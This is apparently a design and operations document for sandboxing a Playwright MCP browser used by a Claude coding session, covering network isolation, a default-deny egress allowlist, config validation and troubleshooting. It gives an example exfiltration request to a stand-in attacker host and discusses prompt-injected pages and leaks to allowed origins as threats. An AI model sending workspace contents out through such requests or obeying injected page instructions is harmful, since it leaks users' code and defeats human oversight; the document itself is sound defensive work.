


# Playwright MCP — a browser outside the sandbox image

How the optional browser is wired up, what it can and cannot do, and why it is
built the way it is. Everything here is driven by the browser section of
[`blue-zone.config.sh`](../blue-zone.config.sh); the containers, the proxy
config and the MCP config are all generated from it by
[`ai-scripts/lib/blue-zone-browser.sh`](../ai-scripts/lib/blue-zone-browser.sh).

It is **off by default**. A blue zone with no browser is the safer system, and
nothing else in the tooling changes when it stays off.

---

## The problem

The blue zone controls what Claude can *see*. A browser controls where what it
sees can *go*.

Every other component in this project is constrained by not having a network:
the headless service runs with `network_mode: none`, and the interactive
session reaches exactly two things through an allowlist proxy (Anthropic and,
for dependency installs, the package registries). Add a browser and you have
added a general-purpose HTTP client driven by the model — one that can put
arbitrary text into a URL, a query string, or a form post. `GET
https://attacker.example/?data=<file contents>` is a complete exfiltration
channel, and it looks exactly like an ordinary navigation.

So the browser is not treated as a feature to be added to the sandbox. It is
treated as a second, separate sandbox with its own, much narrower egress
policy, reachable only through a tool interface.

---

## Why it runs outside the sandbox image

Three reasons, in order of how much they matter:

1. **A browser renders hostile content.** Chromium is a large, fast-moving
   attack surface whose entire job is executing untrusted code from the
   internet. Putting it in the same container as the code under review means a
   renderer compromise lands directly on top of the blue zone.
2. **The blue zone is the thing worth stealing.** The browser container mounts
   **no** part of `/workspace` and receives **no** Anthropic credentials. A
   compromise there finds an empty container with an allowlist proxy in front
   of it.
3. **Image hygiene.** The sandbox image is `node:26-alpine` plus the Claude CLI
   — small, fast to build, easy to audit. Adding a browser stack would multiply
   its size and pull in a dependency tree that has nothing to do with reviewing
   code.

Running the MCP server as a plain **host process** was considered and rejected:
that gives the browser your host user's privileges, your filesystem, and your
whole LAN, and the only thing standing between the session and all of it is the
MCP server's own argument parsing. A sibling container keeps the enforcement in
Docker's networking, where it does not depend on the browser behaving.

---

## Topology



Each arrow is the only path between those two boxes. What that buys:

| Property | How it is enforced |
|---|---|
| The session gains no internet from the browser | `browser` network is `internal: true` — no gateway |
| The session cannot use the browser's proxy directly | `browser-proxy` is not attached to the `browser` network |
| A dev server in the sandbox is reachable, the host is not | `claude-cli` gets a `devserver` alias on the internal `browser` network and Chromium bypasses the proxy for that name only — traffic never leaves Docker |
| The browser cannot reach anything off-allowlist | `browser-egress` is `internal: true`; `browser-proxy` is its only peer, and it is default-deny |
| The browser cannot read the code under review | no blue-zone volumes on `playwright-mcp` |
| The browser cannot spend your Anthropic quota | `CLAUDE_CODE_OAUTH_TOKEN` is never passed to it |
| Nothing survives the session | `--isolated`, `read_only: true`, tmpfs-only writable space, containers removed on exit |
| CI never gets a browser | `run-headless.sh` keeps `network_mode: none` and says so if the browser is configured |

The allowlist is enforced **twice, independently**: at the network layer by
`browser-proxy` (default-deny, exact-host regex, CONNECT limited to the
configured https ports) and at the application layer by the MCP server's
`--allowed-origins`. Neither is trusted to be the only control — the proxy
holds if the MCP server is misconfigured or its flags change meaning between
versions, and `--allowed-origins` holds against redirect chains the proxy would
technically permit.

---

## Configuring it

```bash
# blue-zone.config.sh
BLUE_ZONE_BROWSER_ENABLED=1

BLUE_ZONE_BROWSER_ORIGINS=(
  http://host.docker.internal:8081     # a dev server on your machine
  https://staging.example.com          # a staging deployment
)

# Required before any host.docker.internal origin is accepted.
BLUE_ZONE_BROWSER_ALLOW_HOST_GATEWAY=1
```

Then `./ai-scripts/init.sh` (builds the browser image; it is large, so do this
once rather than at the start of a session) and `./ai-scripts/start-cli.sh`.

Rules the tooling enforces before any container starts — in
`validate-blue-zone.sh` check 7 and again in `start-cli.sh`, since the
`BLUE_ZONE_BROWSER_*` variables can be overridden per-run from the environment:

- Enabled with an **empty** origin list is a violation, not a silent no-op.
- Each origin must parse exactly as `scheme://host[:port]` — http or https, no
  path, no query, no credentials. Anything that does not parse exactly cannot
  be enforced exactly, so it is refused.
- Wildcards and regex metacharacters are refused. They would widen the
  allowlist silently once they reached the proxy's filter, which is itself a
  regex.
- `host.docker.internal` requires `BLUE_ZONE_BROWSER_ALLOW_HOST_GATEWAY=1`.
- Private and LAN addresses (`10.x`, `192.168.x`, `172.16-31.x`, `*.local`,
  `localhost`, …) require `BLUE_ZONE_BROWSER_ALLOW_PRIVATE_IPS=1`.
- Plaintext `http://` to a public host is a warning.

Host access, when you enable it, is granted to the **proxy** — not to the
browser. The browser still has no host route of its own; it has to go through
the allowlist to get there.

By default every browser action prompts you. `BLUE_ZONE_BROWSER_TOOLS` can
pre-approve a narrow set (e.g. navigate + snapshot) if the prompting gets in
the way; leaving it empty is the safer setting, and the reason this is
interactive-only.

---

## Testing a dev server Claude runs itself

The common case: Claude edits the UI, starts the project's dev server inside the
sandbox, and opens it in the browser to see whether the change worked.

```bash
# blue-zone.config.sh
BLUE_ZONE_BROWSER_ENABLED=1
BLUE_ZONE_BROWSER_DEV_PORTS=(8080)
BLUE_ZONE_BROWSER_ORIGINS=()          # nothing external needed
```

That is the whole configuration. `BLUE_ZONE_BROWSER_ALLOW_HOST_GATEWAY` stays
`0`: nothing here touches your machine.

This is the **tightest** way to use the browser, not a loosening of it. The dev
server is in the sandbox, the browser is in the sandbox, and the traffic between
them never leaves the internal Docker networks. With no external origins the
proxy allowlist is empty, so every destination outside Docker is denied.

### Why it needs its own mechanism

`browser-proxy` is deliberately not on the `browser` network — that is what
stops the session using it as a general-purpose proxy. The same fact means it
could never route to `claude-cli` either, so a dev server inside the session is
unreachable *through* the proxy, by construction.

Two pieces close that gap, and neither widens the browser's reach:

1. **A network alias.** `claude-cli` gets the name `devserver` on the `browser`
   network, which only it and the browser container share. `start-cli.sh` adds
   `--use-aliases` to the `docker compose run`, because compose does not apply a
   service's aliases to a `run` container otherwise — without it the name simply
   would not resolve.
2. **A proxy bypass.** Chromium is given `--proxy-bypass=devserver` so requests
   to that name go direct across the internal network instead of to a proxy that
   cannot reach it. The origin is also added to `--allowed-origins`, so the
   app-layer check still applies.

The bypass grants nothing new: that path already existed at the network layer,
and it leads to the session's own container.



### What Claude has to do

Two settings, and they are the cause of a failure to load almost every time:

- **Bind to `0.0.0.0`.** The browser is in a different container; a server on
  localhost is reachable only from inside `claude-cli`.
- **Allow the `devserver` hostname.** Dev servers reject requests with an
  unrecognised `Host` header — `allowedHosts: 'all'` for webpack-dev-server,
  `server.allowedHosts` for vite.

```bash
npx webpack serve --host 0.0.0.0 --port 8080     # then open http://devserver:8080
```

`ai-scripts/CLAUDE.md` tells Claude exactly this, including that
`http://localhost:8080` will not work from the browser — it resolves to the
browser's own container.

The tooling cannot check any of it before the session: nothing is listening yet
when validation runs, and the server is started later by Claude. What validation
does check is that the ports are numbers in range and the alias is a usable
hostname; the rest is a runtime symptom with two likely causes.

### Two practical notes

- `npm install` works: the npm and yarn registries are already on the session's
  own egress allowlist.
- Add your build output directory (`dist/`, `build/`) to
  `BLUE_ZONE_COMMON_EXCLUDES`, or compiled assets sync back into your repo.

---

## What is generated, and where

Nothing about the browser is hand-edited. On each interactive run:

| File | Purpose |
|---|---|
| `<blue zone root>/.browser/filter` | exact-host allowlist for the browser proxy |
| `<blue zone root>/.browser/tinyproxy.conf` | default-deny proxy config, `ConnectPort` per https port |
| `<blue zone root>/.browser/mcp.json` | mounted read-only at `/workspace/.mcp.json` |
| `docker-compose.browser.yml` | the two browser services, the `devserver` alias, layered via `COMPOSE_FILE` |

`.browser/` lives at the blue zone **root**, not inside a mounted folder, so it
is never part of the workspace, never scanned as project content, and never
synced back to your repo. The compose overlay is git-ignored.

The session is started with `--mcp-config /workspace/.mcp.json
--strict-mcp-config`: that generated file is the only MCP config it loads, so
a server left behind in the persisted `~/.claude.json` by an earlier run cannot
quietly come along.

---

## What this does **not** protect against

Stated plainly, because a control you believe in wrongly is worse than one you
know you lack.

- **Exfiltration to an allowed origin.** If `https://staging.example.com` is on
  the list, Claude can put workspace content into a request to it. The
  allowlist bounds *where*, not *what*. Keep the list short, and keep it to
  origins you control.
- **Host-granular, not port-granular, filtering for plain HTTP.** tinyproxy
  matches the destination host. `ConnectPort` bounds https tunnels to the ports
  you configured, but an `http://` origin effectively allows that host on any
  port.
- **A prompt-injected page.** A page the browser visits can contain
  instructions aimed at Claude. The allowlist limits where those instructions
  can send anything, and `ai-scripts/CLAUDE.md` tells Claude not to put
  workspace content into requests — but that is guidance, not enforcement. This
  is a large part of why the browser is interactive-only: a human is watching
  each action.
- **`--no-sandbox`.** Chromium's own sandbox needs user namespaces that Docker's
  default seccomp profile blocks, so it is disabled and container isolation is
  the boundary instead: non-root `pwuser`, all capabilities dropped,
  `no-new-privileges`, a read-only root filesystem whose only writable space is
  a tmpfs that `HOME` points into, memory and pid limits, and no mounts worth
  reaching. If you would rather keep Chromium's sandbox, apply Playwright's
  published seccomp profile via `security_opt` and drop the `--no-sandbox` flag
  from the generated command.
- **Loopback inside the browser container.** The MCP server's own port is
  reachable from a page as `localhost:8931`; `--allowed-origins` is what keeps
  a page from requesting it.
- **Supply chain.** `BLUE_ZONE_BROWSER_IMAGE` and
  `BLUE_ZONE_BROWSER_MCP_VERSION` default to an image tag and an exact package
  version (`0.0.81`), not to `latest`. Prefer a digest for the base image before
  any real use. The MCP package is installed with `--ignore-scripts`, and the
  browser it needs is then installed explicitly through that package's own
  `playwright-core` (see below).

---

## Troubleshooting

### "Playwright MCP Server — needs authentication"

Claude Code shows the MCP server as needing auth, and the detail says something
like:

```
SDK auth failed: Dynamic Client Registration rejected (HTTP 403):
  <title>403 Filtered</title> … Generated by tinyproxy version 1.11.2.
```

**This is not an authentication problem.** Read whose 403 it is: tinyproxy —
the session's own `egress-proxy`. `claude-cli` runs with
`HTTP_PROXY`/`HTTPS_PROXY` pointed at that proxy, so unless the MCP host is
exempted, the request to `http://playwright-mcp:8931/mcp` is handed to a proxy
that is not even on the `browser` network. It default-denies the unknown host
and returns `403 Filtered`, and an MCP client reasonably reads a 403 from an
HTTP endpoint as an auth challenge — so it tries Dynamic Client Registration,
gets the same 403, and reports "needs authentication".

The fix is the generated `NO_PROXY` exemption on `claude-cli`:

```yaml
environment:
  NO_PROXY: "localhost,127.0.0.1,playwright-mcp,devserver"
```

`playwright-mcp` (and the dev-server alias, which from inside the session
resolves to itself) must never go through the egress proxy — they are reachable
directly on internal Docker networks, which is the whole design. Every other
proxy variable is left alone, so Anthropic traffic still goes through the
allowlist.

If you see this, your `docker-compose.browser.yml` predates the fix. Regenerate
it by starting a session (`./ai-scripts/start-cli.sh` rewrites it every run);
at the prompt choose neither **Authenticate** nor **Disable** — there is nothing
to authenticate against. Exit and restart instead.

The general shape is worth remembering when adding anything to this setup: a
`403 Filtered` page always means *a proxy refused a host*, never that a server
wants credentials. Check which proxy generated it, and whether that proxy could
reach the destination at all.

### The browser container exits immediately

**"no such file or directory" / `exec: … not found`.** The entrypoint binary is
not in the image. `@playwright/mcp` installs its CLI as **`playwright-mcp`**;
an earlier version of the Dockerfile guessed `mcp-server-playwright`, and the
only symptom was this message, which says nothing about the cause. The
Dockerfile now verifies the binary exists *at build time* and fails the build
with an explanation rather than producing an image that cannot start.

**"Executable doesn't exist at /ms-playwright/chromium-XXXX/…".** The Chromium
build revision the bundled Playwright wants is not the one in the image.
`@playwright/mcp` pins an exact Playwright version (0.0.81 pins
`1.64.0-alpha-2026-09-14`), and Playwright resolves browsers by build revision,
not by "whatever Chromium is present" — so it does not follow the base image's
own Playwright version. Pinning `BLUE_ZONE_BROWSER_IMAGE` to a matching tag is a
losing game, because the pairing changes on every MCP release.

The Dockerfile sidesteps it: after installing the MCP package it runs that
package's own `playwright-core` CLI to install Chromium, so the browser is by
construction the one that version expects, whatever either version is. The base
image is left doing what it is actually good at — OS libraries, fonts, and the
non-root `pwuser` account. If you bump `BLUE_ZONE_BROWSER_MCP_VERSION`, rebuild
(`./ai-scripts/init.sh`) and the matching browser comes with it.

### The browser cannot load the dev server

Almost always one of two things, both in the dev server's own config:

- it is bound to localhost instead of `0.0.0.0`, so it is reachable only inside
  `claude-cli`; or
- it rejects the `Host: devserver` header — set `allowedHosts` (webpack) or
  `server.allowedHosts` (vite).

Navigating to `http://localhost:8080` from the browser fails for a third
reason: localhost there is the *browser's* container. Use the exact origin the
session banner prints.

---

## Operating notes

- The Playwright base image is multi-gigabyte. `init.sh` builds it up front so
  a session does not stall on the pull.
- `start-cli.sh` recreates both browser containers from the freshly generated
  allowlist on every run, so a policy edit takes effect on the next session and
  a stale one never lingers. They are torn down when the session ends, along
  with the egress proxy.
- If a navigation fails, that is usually the allowlist doing its job. The
  session is told to report which origin it needed rather than working around
  the refusal — decide whether to add it, don't widen the list reflexively.
- Bumping `@playwright/mcp` can change flag names (`--allowed-origins`,
  `--isolated`, `--proxy-server`, `--proxy-bypass`, `--output-dir`) and always
  changes the Chromium revision it expects. Rebuild after a bump so the matching
  browser is installed; if the container then fails to start, check the
  generated `command:` in `docker-compose.browser.yml` against that version's
  `--help` and adjust `blue_zone_browser_write`. The proxy allowlist is
  unaffected either way — which is exactly why it is the primary control.
